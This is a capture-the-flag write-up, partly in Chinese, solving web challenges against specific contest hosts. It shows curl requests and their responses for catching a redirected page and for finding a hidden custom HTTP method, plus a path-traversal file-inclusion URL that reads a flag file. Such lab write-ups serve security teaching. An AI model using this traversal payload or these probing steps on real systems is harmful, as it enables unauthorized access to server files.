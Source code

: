 # web-3:Curl-1

step1:先用瀏覽器看看
```
==>被導向到http://120.114.62.89:2014/no_flag_is_here.php
```

step2:利用curl捕捉首頁
```
curl -v http://120.114.62.89:2014/
```
step3:仔細看看回傳的預設首頁==>找到關鍵index.php

step4:再次使用curl捕捉稍縱即逝的首頁
```
curl -v http://120.114.62.89:2014/index.php
```

```
*   Trying 120.114.62.89...
* Connected to 120.114.62.89 (120.114.62.89) port 2014 (#0)
> GET /index.php HTTP/1.1
> Host: 120.114.62.89:2014
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 302 Found
< Date: Sun, 20 May 2018 07:28:08 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Location: no_flag_is_here.php
< Content-Length: 34
< Content-Type: text/html
< 
BreakALLCTF{XXXXXXXXXXXXXXXXXXXXXXXXXXX}
* Connection #0 to host 120.114.62.89 left intact
```

# web-4:HTTP method 100

curl -X GET -v http://140.110.112.31:3001/index.php

curl -v http://140.110.112.31:3001/index.php
```
*   Trying 140.110.112.31...
* Connected to 140.110.112.31 (140.110.112.31) port 3001 (#0)
> GET /index.php HTTP/1.1
> Host: 140.110.112.31:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 501 Not Implemented
< Date: Sun, 20 May 2018 07:17:50 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Content-Length: 199
< Connection: close
< Content-Type: text/html
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>501 Not Implemented</title>
</head><body>
<h1>Not Implemented</h1>
<p>GET to /index.php not supported.<br />
</p>
* Closing connection 0
</body></html>
```

curl -X POST -v http://140.110.112.31:3001/index.php
```
*   Trying 140.110.112.31...
* Connected to 140.110.112.31 (140.110.112.31) port 3001 (#0)
> POST /index.php HTTP/1.1
> Host: 140.110.112.31:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 501 Not Implemented
< Date: Sun, 20 May 2018 07:18:07 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Content-Length: 200
< Connection: close
< Content-Type: text/html
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>501 Not Implemented</title>
</head><body>
<h1>Not Implemented</h1>
<p>POST to /index.php not supported.<br />
</p>
* Closing connection 0
```


curl -X OPTIONS  -v http://140.110.112.31:3001/index.php
```
*   Trying 140.110.112.31...
* Connected to 140.110.112.31 (140.110.112.31) port 3001 (#0)
> OPTIONS /index.php HTTP/1.1
> Host: 140.110.112.31:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sun, 20 May 2018 07:18:40 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Allow: GETFLAG,OPTIONS
< Content-Length: 0
< Content-Type: text/html
< 
* Connection #0 to host 140.110.112.31 left intact

```
curl -X GETFLAG  -v http://140.110.112.31:3001/index.php

```
*   Trying 140.110.112.31...
* Connected to 140.110.112.31 (140.110.112.31) port 3001 (#0)
> GETFLAG /index.php HTTP/1.1
> Host: 140.110.112.31:3001
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sun, 20 May 2018 07:19:34 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.22
< Content-Length: 33
< Content-Type: text/html
< 
* Connection #0 to host 140.110.112.31 left intact
BreakALLCTF{***********************}
```

# web-5:Local File Inclusion 80

http://140.110.112.31:2003/index.php?page=../../../../flag

# Web-6:Burp Suite 110


